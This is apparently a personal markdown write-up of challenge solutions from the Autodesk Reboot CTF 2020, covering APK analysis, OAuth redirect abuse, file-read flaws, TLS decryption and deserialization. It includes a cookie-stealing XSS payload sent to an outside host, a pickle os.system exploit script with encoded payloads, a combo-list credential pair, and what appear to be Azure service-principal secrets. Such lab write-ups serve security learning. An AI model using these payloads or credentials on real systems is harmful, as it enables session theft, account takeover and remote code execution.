








## Autodesk Reboot CTF 2020


# Creds in the wrong place (APK Part 1)

`https://c3.metacorp.us/androidapp/api/login.php?username=devguy1&password=Alw@ys_d3lete_d3bug_c0d3!`

We got:

> Alw@ys_d3lete_d3bug_c0d3!

# Protecting the research (APK Part 2)

From the previous challenge we could get the token
`D789432Mnfery98hdui3h4rLLqpfh98882nNCuf97213abdfWndn327MnfduqP`



Now inspecting the apk again we will see the endpoint for shop, fetch it and we can get the flag
`https://c3.metacorp.us/androidapp/api/cars.php?token=D789432Mnfery98hdui3h4rLLqpfh98882nNCuf97213abdfWndn327MnfduqP`

This gives us the bonus flag:
> teslas_are_almost_as_cool_as_bonus_flags

Now inspecting again all of the java classes, we can see another endpoint:
`https://c3.metacorp.us/androidapp/api/active_experiments.php?token=`

Using out token above will not grant us access, so if we take a look at the source code there is a:
`roles.append("&roles[]=").append(role);`

Now using that to craft the final url:
`https://c3.metacorp.us/androidapp/api/active_experiments.php?token=D789432Mnfery98hdui3h4rLLqpfh98882nNCuf97213abdfWndn327MnfduqP&roles[]=admin`

Will give us the final flag:

> we_call_this_the_hacksperiment_see_how_quickly_we_get_hacked

# Free Healthcare for All

We have a list of Doctors, and a combo list of all user + pass. Using grep with each first name, we found:

`damion.v.rosol@gmail.com:ronaldo7`

Now try to manipulate the enterprise way of creating email from the email example below. We got his login:

`d.rosol@picoclinic.com:ronaldo7`

now we got a problem with 2FA, just inspect the API call, it will expose the verification number (img here). Enter that and we will get the key.



`MetaCTF{looks_like_2fa_didnt_save_you_from_password_reuse_this_time}`


# We can go anywhere we want

2 pages, if we authorize there is a link to redirect:
https://metaproblems.com/3d40c938041575a3111cf2860e61bc97/AuthorizationSecurityLtd/authorize.php?response_type=code&client_id=consumerrights74m1neigr7749i0m&redirect_uri=https://metaproblems.com/3d40c938041575a3111cf2860e61bc97/TheConsumerRightsAssociation/api/token.php&state=96d0b56145cf1e8b9239112d365ce330

Not sure if this is a giveaway flag but the hint say use webhook, so i just use webhook with the above url and craft the url with the redirect_uri:

https://metaproblems.com/3d40c938041575a3111cf2860e61bc97/AuthorizationSecurityLtd/authorize.php?response_type=code&client_id=consumerrights74m1neigr7749i0m&redirect_uri=https://webhook.site/yourwebhook

And boom, we got the flag, honestly no idea ...

> 	MetaCTF{maybe_allowing_you_to_go_anywhere_wasnt_such_a_good_idea}

# Silly HR

Submit any application and inspect the shown page, the resume is load through an iframe with the below url:

`http://host1.metaproblems.com:4725/?m=resume.php&f=/uploads/327912300.pdf`

Now try changing the file name to the index:

`http://host1.metaproblems.com:4725/?m=resume.php&f=index.php`

Note that it does now show anything, but we should download the file and rename it to something .php and we can view the source code.

In the index.php we will see there is a child folder for all module /app

So we craft the final link to view the admin:

`http://host1.metaproblems.com:4725/?m=resume.php&f=/app/admin.php`

And we get the flag:

> MetaCTF{ugh_why_all_of_my_file_upload_implementations_are_so_vulnerable}

# ACMECorp

There are 3 pages, 1 to submit, 1 to view previous one and 1 to request admin to view. We can see it's XSS.

On the submit page, tried all the posibilities for xss injection but all string are not being submitted, and sometimes they are being capitalized.

By searching the dork uppercase we found the solution in the 3rd result:
`https://duckduckgo.com/?q=xss+bypass+uppercase&t=h_&ia=web`

Here is the explanation of the bypass:
`https://security.stackexchange.com/questions/145716/xss-bypass-strtoupper-htmlspecialchars`

Note that it does not work since we need to mouse-hover the field. We need to use `onfocus` and `autofocus`. So our payload should be:

`' onfocus='document.location="https://www.nguyenphuoc.net/ctf/cookie.php?c=" + document.cookie' autofocus="`

We need to use JSFuck as mentioned in the post to convert the function to lowercase. By inspecting the cookie we found the flag:

> MetaCTF{aLl_y0uR_c00k1es_R_beLonG_2_uS} 


# My Code is Your Code

Using webhook again:

https://metaproblems.com/2ab6461d240267b782d7144c2585a4b4/AuthorizationSecurityLtd/authorize.php?response_type=code&client_id=consumerrights74m1neigr7749i0m&redirect_uri=https://webhook.site/6ffd493a-4bb0-4c86-9d6c-870a1e84a5c4



I'm using firefox and while inspecting all of the code that were made through the flow, there is a suspicious GET request that include the code. Just edit and resend that request with the code we get from webhook and we will get the key.



> MetaCTF{validate_your_redirect_uri_or_dont_im_a_flag_not_a_cop}

# BABYBOF

```python -c "print 'A'*40" | ./babybof```

See the writeup in CTF 2019



> welcome_to_the_world_of_overflows


# The Traffic Snooper

First I inspect the traffic and see only TCP/TLSv1 traffic. Google around, I notice that it's a good idea to inspect the call to "Server Hello Certificate Server Hello Done".

Expanding the traffic detail, there is a Cert for "ORName_Jungle OpenRG Products Group", google it again we know that it's a gateway, so it matches what the problem said. I also extract the certificate from that traffic by rightclicking on the traffic, and save as bytes.

It's not readable, so we need to use open ssl to read that:

`openssl x509 -inform der -in cert.der -text`



Based on the info from the problem, i tried googling around and here is the right dork the hits the jackpot "private SSL key db inurl:github". It will show the littleblackbox github which contains a lot of the private/public key pairs.

`https://github.com/devttys0/littleblackbox`

Upon opening the database lbb.db i notice that i need to find the fingerprint. So go back to the cert i had above, here is an instruction how to show the fingerprint:

`https://community.rsa.com/docs/DOC-105698`

Now using the command:

`openssl x509 -noout -fingerprint -sha1 -inform pem -in cert.crt`

I got the fingerprint: (note that i tried others SHA256 but didn't work)

`SHA1 Fingerprint=43:88:33:C0:94:F6:AF:C8:64:C6:0E:4A:6F:57:E9:F4:D1:28:14:11`

Now look that up in the database from the littleblackbox, we will get the private key. I will save it as priv.pem



Next we need to set wireshark to decrypt the traffic, by going to Edit > Reference or watch this youtube.

`https://www.youtube.com/watch?v=vQtur8fqErI`

Now go back and filter HTTP traffic, we will see all of them are appearing, and we get the flag from one of them.


> Danc3LikeNoOnesW@tch1ngEncryp7LikeEveryoneIs


# Making a List Check it Twice


Searching for "azure blob storage api" will yield some results for Open API, which we can use:

`https://makingalist.blob.core.windows.net/assets/?comp=list`

Now the secret is in:

`https://makingalist.blob.core.windows.net/assets/access.txt`

> MetaCTF{open_buckets_are_dead_long_live_open_buckets}


# Lateral We Move

```
{
"appId": "ab84c56b-cb76-47bf-87b0-4bc1dec2afff",
"displayName": "azure-cli-2020-08-16-13-39-46",
"name": "http://azure-cli-2020-08-16-13-39-46",
"password": "I1K5tKCQv5_TXZMWINX0tI-nlRHFZniIKS",
"tenant": "06ab4216-4297-47c7-a42f-2e97ab246654",
"flag": "MetaCTF{open_buckets_are_dead_long_live_open_buckets}"
}
```

Just use the tool to look around

> MetaCTF{hippity_hoppity_through_the_cloud_we_hop}

# Into the NETception

Just use the Chef for AES Decryption, and dnSpy as in instruction to decrypt the hex.

> MetaCTF{admit_it_you_dont_believe_in_one_reality_anymore}

# Unfair and Unbalance

Got my save string as:
`gAN9cQAoWA4AAABMZXZlbENvbXBsZXRlZHEBSwFYBAAAAE5hbWVxAlgGAAAAV2l6YXJkcQNYBgAAAGhlYWx0aHEETV4BWAYAAABhdHRhY2txBU30AXUu`

According to Meghane, they are using pickle and base64 to encode the save string. Searching for Pickle Exploit we can craft a payload as.

```python
import pickle
import codecs
import os

class Exploit(object):
  def __reduce__(self):
    return (os.system,('/bin/ls',))

#data = pickle.dumps(Exploit())
data = codecs.encode(pickle.dumps(Exploit()), "base64").decode()
print(data)
```

Will give us:
`gASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAcvYmluL2xzlIWUUpQu`

It will list the current directory of the folder. Now use make it `return (os.system,('/bin/cat flag.txt',))` by using:

`gASVLAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBEvYmluL2NhdCBmbGFnLnR4dJSFlFKULg==`



> MetaCTF{0h_no_we_g0t_ours3lves_into_4_pickl3}

# Product Key Validation

Set the breakpoint at main using gdb:

`gdb keygen`

`br main`

then run it and jump to the create_key

`jp create_key`

We will get the list of trial key and full key. Kinda stuck here.

